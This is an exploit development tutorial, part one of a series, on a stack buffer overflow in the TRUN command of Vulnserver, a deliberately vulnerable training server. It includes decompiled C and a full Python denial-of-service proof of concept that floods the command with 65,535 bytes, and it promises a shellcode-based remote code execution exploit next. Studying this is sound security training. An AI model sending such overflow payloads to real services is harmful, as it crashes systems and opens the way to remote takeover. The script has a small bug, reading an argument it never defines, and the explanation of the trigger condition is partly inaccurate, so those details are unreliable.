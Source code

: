 ```yaml
---
title: Exploit Development - Vulnserver v1.00 Part 1
published: 2025-10-22
description: DoS exploit development against Vulnserver v1.00
tags: [binary exploitation, exploit, vulnerability research]
category: Exploit Development
draft: false
lang: en
---
```


# Vulnserver v1.00 DoS Exploit Dev

## YouTube
<iframe width="560" height="315" src="https://www.youtube.com/embed/Dd5HpNzpu6w?si=ziFH6kOkVx-yjs3p" title="YouTube video player" frameborder="0" allow="accelerometer; autoplay; clipboard-write; encrypted-media; gyroscope; picture-in-picture; web-share" referrerpolicy="strict-origin-when-cross-origin" allowfullscreen></iframe>

## Vulnerability
Vulnserver v1.00 has the following commands:

1.  HELP
2.  STATS [stat\_value]
3.  RTIME [rtime\_value]
4.  LTIME [ltime\_value]
5.  SRUN [srun\_value]
6.  TRUN [trun\_value]
7.  GMON [gmon\_value]
8.  GDOG [gdog\_value]
9.  KSTET [kstet\_value]
10. GTER [gter\_value]
11. HTER [hter\_value]
12. LTER [lter\_value]
13. KSTAN [lstan\_value]
14. EXIT

-----

The code that controls **TRUN** is as follows:

```c
else if ( !strncmp(buf, "TRUN ", 5u) )
{
	Destination = (char *)malloc(3000u);
	memset(Destination, 0, 3000u);
	for ( i = 5; i < len; ++1 )
	{
		if ( buf[i] == 46 )
		{
			strncpy(Destination, buf, 3000u);
			Function3(Destination);
			break;
		}
	}
	memset(Destination, 0, 0xBB8u);
	v17 = send(s, "TRUN COMPELTE\n", 14, 0);
}

char *__cdecl Function3(char *Source)
{
	char Destination[2008];

	return strcpy(Destination, Source);
}
```

Here, if the **6th value** of the string following the **TRUN** command matches **46** (ASCII text (46): `.`), `Function3` is called from `essfunc.dll`. This function creates a buffer that can store a string of **2008 bytes** but then saves **3000 bytes** into it. This is a very dangerous vulnerability that can allow a **Buffer OverFlow (BOF)** attack.

## PoC
```python
from argparse import ArgumentParser
from socket import *

def createPayload():
    data = b"A" * 65535

    payload = b"TRUN \x2E"
    payload += data

    return payload

def exploit(ip: str, port: int):
    print("[~] Generating payload...")
    payload = createPayload()
    print("[+] Payload generated")

    s = socket(AF_INET, SOCK_STREAM)
    print(f"[~] Connecting to the target: [{ip}]:{port}")
    s.connect((ip, port))

    print("[~] Waiting for a connection message...")
    conn_msg = s.recv(65535)
    print(f"[+] A connection message received: {conn_msg.decode()}")

    print("[~] Sending the payload...")
    s.send(payload)
    s.close()
    print("[+] Connection closed")

    print("[+] DoS Exploit Completed")

def main():
    parser = ArgumentParser(
        prog="Vulnserver v1.00 Exploit",
        description="TRUN command BOF DoS Vulnerability"
    )
    parser.add_argument(
        "-t", "--target",
        type=str,
        help="Set target IPv4 address",
        required=True
    )
    parser.add_argument(
        "-p", "--port",
        type=int,
        help="Set target port number",
        required=True
    )
    
    args = parser.parse_args()

    target_ip       = str(args.ip)
    target_port     = int(args.port)

    exploit(target_ip, target_port)

if __name__ == "__main__":
    main()
```

The Proof of Concept (PoC) above is code that **overwrites 65,535 bytes of memory** via a Buffer Overflow (BOF) attack.
The program terminates abnormally with a DEP Violation error.
A DEP Violation error means that an error is returned due to **an attempted return to a non-executable memory location**.
This indicates that **it's possible to overwrite the return address in the program to perform a Control Flow Hijack,** which could ultimately lead to the execution of a remote attacker's shellcode.
In Part 2, we will develop an RCE Exploit involving a NOP Slide and shellcode generation.